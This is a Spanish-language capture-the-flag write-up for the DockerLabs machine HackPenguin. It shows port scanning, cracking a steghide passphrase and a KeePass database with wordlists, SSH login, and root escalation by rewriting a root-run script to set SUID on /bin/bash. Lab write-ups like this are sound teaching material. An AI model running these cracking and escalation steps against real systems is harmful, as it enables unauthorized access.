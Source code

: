 ```yaml
---
title: DockerLabs Writeup HackPenguin
published: True
---
```

----------------------------
![Logo](../assets/images-HackPenguin/Logo.png)

------------------
HackPenguin, es una maquina Linux de dificultad Medio de la plataforma DockerLabs, donde se puede practicar Estenografía, crack de hash y escalada de privilegios mediante un script de bash.

--------------------------------
# [](#header-1)Reconocimiento
Comenzando con nmap para descubrir los puertos abiertos
```bash
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.88.0.2 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-01 17:28 -03
Initiating ARP Ping Scan at 17:28
Scanning 10.88.0.2 [1 port]
Completed ARP Ping Scan at 17:28, 0.04s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 17:28
Scanning 10.88.0.2 [65535 ports]
Discovered open port 80/tcp on 10.88.0.2
Discovered open port 22/tcp on 10.88.0.2
Completed SYN Stealth Scan at 17:28, 0.80s elapsed (65535 total ports)
Nmap scan report for 10.88.0.2
Host is up, received arp-response (0.0000070s latency).
Scanned at 2024-08-01 17:28:39 -03 for 1s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 76:17:5E:C1:9F:DF (Unknown)
```
Vemos que tenemos el puerto 22 y el 80, haremos un escaneo mas exhaustivo para ver que tenemos en estos dos puertos
```bash
❯ nmap -p22,80 -sCV 10.88.0.2 -oN targeted
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-01 17:33 -03
Nmap scan report for 10.88.0.2
Host is up (0.000071s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 fa:13:95:24:c7:08:e8:36:51:6d:ab:b2:e5:3e:3b:da (ECDSA)
|_  256 e2:f3:81:1f:7d:d0:ea:ed:e0:c6:38:11:ed:95:3a:38 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.52 (Ubuntu)
MAC Address: 76:17:5E:C1:9F:DF (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.82 seconds
```
Veremos que nos reporta whatweb respecto a las tecnologías que corren por detrás de la pagina web 
```bash
❯ whatweb http://10.88.0.2
http://10.88.0.2 [200 OK] Apache[2.4.52], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.52 (Ubuntu)], IP[10.88.0.2], Title[Apache2 Ubuntu Default Page: It works]
```
Vemos un defalut page de Apache2 iremos a comprobar esto, efectivamente tenemos la pagina por defecto de Apache

![Pagina Apache](../assets/images-HackPenguin/Hackpenguin1.png)

Utilizaremos  `gobuster` para descubrir directorio o archivo existentes , vemos que con extensiones de archivos nos descubre penguin.htm y index.html
```bash
❯ gobuster dir -u http://10.88.0.2 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x php,html,backup,zip,.back
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.88.0.2
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,backup,zip,back
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 10671]
/.html                (Status: 403) [Size: 274]
/penguin.html         (Status: 200) [Size: 342]
/.html                (Status: 403) [Size: 274]
Progress: 334960 / 1323360 (25.31%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 339902 / 1323360 (25.68%)
```
No vemos mas que una imagen de pingüinos, por lo tanto descargamos la imagen y ver si esconde algo.

![Pinguino](../assets/images-HackPenguin/HackPenguin2.png)

le pasamos `steghide` para extraer los datos, pero como nos pide una contraseña lo intentaremos crackear con `stegseek`
```bash
steghide extract -sf penguin.jpg
Anotar salvoconducto: 
steghide: no pude extraer ningn dato con ese salvoconducto!
```
Vemos que conseguimos la contraseña para poder ver lo que esta escondiendo por detrás de esta imagen
```bash
❯ stegseek --crack penguin.jpg /usr/share/wordlists/rockyou.txt
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "chocolate"

[i] Original filename: "penguin.kdbx".
[i] Extracting to "penguin.jpg.out".
```
Vemos que por destras habia un archivo con extension `kdbx` y la passphrase era `chocolate`. Si probamos es passa en `keepassxc` veremos que nos da error, por lo tanto intentaremos crackear la contraseña del archivo `KeePass`.
Una vez tenemos el hash podemos intentar crackearlo con john
```bash
❯ keepass2john penguin.kdbx > hash
```
Conseguimos la contraseña por lo que ahora nos vamos a dirigir a keepassxc
 ```bash
 ❯ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 60000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
password1        (penguin)     
1g 0:00:00:00 DONE (2024-08-01 18:54) 4.347g/s 139.1p/s 139.1c/s 139.1C/s 654321..butterfly
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
Abrimos keepassxc pasandole el archivo `penguin.kdbx`

![KeePass](../assets/images-HackPenguin/Hackpenguin3.png)

Ahora con esta contraseña intentaremos conectarnos por SSH
```bash
❯ ssh penguin@10.88.0.2
Last login: Sun Apr 14 08:24:53 2024 from 172.17.0.1
$ whoami
penguin
penguin@b946ad863458:~$ hostname -I
10.88.0.2 
```
Ahora toca escalar Privilegios

------------
## [](#header-2)Privilege Escalation
En un principimos, no tenemos privilegios SUID, no pertenecemos a ningun grupo especial o tenemos permisos SUID, lo que si encontramos es un `script.sh` que le pertenece a `root` pero se encuentra en nuestro directorio personal y vemos que lo podemos ejecutar, leer y modificar.
```bash
penguin@b946ad863458:~$ ls
archivo.txt  script.sh
penguin@b946ad863458:~$ ls -la
total 4
drwxrwxrwx 1 root    root        34 Aug  1 22:12 .
drwxr-xr-x 1 root    root        22 Apr 15 07:22 ..
drwx------ 1 penguin hackpenguin 40 Aug  1 22:12 .cache
-rwxrwxrwx 1 root    root         0 Aug  1 22:17 archivo.txt
-rwxrwxrwx 1 root    root        56 Apr 15 07:26 script.sh
```
si vemos los procesos que se están ejecutando vemos que root esta ejecutando el script.sh

![procesos](../assets/images-HackPenguin/Hackpenguin4.png)

Por lo tanto vamos a cambiar el contenido de este script y cambiarlo asi root cuando ejecute el script nos cambia los permisos de la bash, primero vemos que permisos tiene la bash
```bash
penguin@b946ad863458:~$ ls -la /bin/bash
-rwxr-xr-x 1 root root 1396520 Jan  6  2022 /bin/bash
```
En el script introducimos lo siguiente
```bash
#!/bin/bash

chmod u+s /bin/bash
echo 'pinguino no hackeable' > archivo.txt
```
Ahora si vemos los permisos de la bash vermos que cambio SUID
```bash
penguin@b946ad863458:~$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1396520 Jan  6  2022 /bin/bash
```
Ahora solo hacemos `bash -p(privilege)` y veremos que nos otorga una bash como root
```bash
penguin@b946ad863458:~$ bash -p
bash-5.1# whoami
root
```



